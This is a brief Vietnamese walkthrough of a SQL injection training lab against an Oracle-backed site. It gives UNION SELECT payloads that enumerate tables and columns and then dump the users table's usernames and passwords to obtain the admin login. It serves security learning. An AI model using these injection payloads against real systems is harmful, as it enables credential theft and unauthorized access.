 ![image](https://user-images.githubusercontent.com/125866921/231405500-ad52ac43-fff3-4297-8f12-d94a6bbaa506.png)

  - Ta cũng thử 1 vài câu lệnh truy vấn như ở lab trước.  
  - Và ở lab này ta sẽ xét ``all_tables``.  
  - Câu lệnh truy vấn như sau:  

        ' UNION SELECT table_name, NULL FROM all_tables --
        
![image](https://user-images.githubusercontent.com/125866921/231407349-6e95d57e-0853-4fbe-a8e1-f5bc72f7a09b.png)

  - Ta tìm được ``USERS_JQERLG`` đây rồi.  
  - Bây giờ ta cần làm theo các bước như ở lab trước và chỉnh sửa 1 tí.  

        ' UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name='USERS_JQERLG'--
        
![image](https://user-images.githubusercontent.com/125866921/231408479-5d52f3aa-3a52-45f4-9c81-8a8cda2d833e.png)

  - Tại đây trang web đã hiện ra ``USERNAME_YPLWYJ`` và ``PASSWORD_INTOQU``.  
  - Tới bước này ta thực hiện giống như ở lab trước.  

        ' UNION SELECT USERNAME_YPLWYJ, PASSWORD_INTOQU FROM USERS_JQERLG --
        
![image](https://user-images.githubusercontent.com/125866921/231409268-2cd60d59-1a06-450a-a93e-339389c99fe0.png)

  - Trang web đã hiện ra tài khoản của admin.  
  - Giờ ta chỉ việc đăng nhập và hoàn thành lab thôi.  
